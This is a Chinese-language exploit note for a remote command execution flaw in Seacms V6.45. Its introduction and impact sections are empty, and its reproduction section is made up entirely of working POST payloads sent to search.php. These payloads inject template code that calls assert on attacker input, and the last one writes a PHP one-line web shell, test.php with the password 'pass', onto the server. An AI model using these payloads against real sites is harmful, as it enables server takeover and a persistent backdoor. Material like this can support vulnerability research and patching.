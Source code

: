 ```yaml
---
title: "Seacms V6.45"
id: zhfly3114
---
```


# Seacms V6.45 远程命令执行漏洞

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

`http://0-sec.org/search.php?searchtype=5`

POST

```
searchtype=5&order=}{end if} {if:1)phpinfo();if(1}{end if} 
```

```
searchtype=5&searchword=d&order=}{end if}{if:1)print_r($_POST[func]($_POST[cmd]));//}{end if}&func=assert&cmd=phpinfo(); 
```

> 一句话payload，文件test.php 密码pass:

path:

`http://0-sec.org/search.php`

```
}{end if}{if:1)print_r($_POST[func]($_POST[cmd]));//}{end if}&func=assert&cmd=fwrite(fopen("test.php","w"),'<?php eval($_POST["pass"]);?>') 
```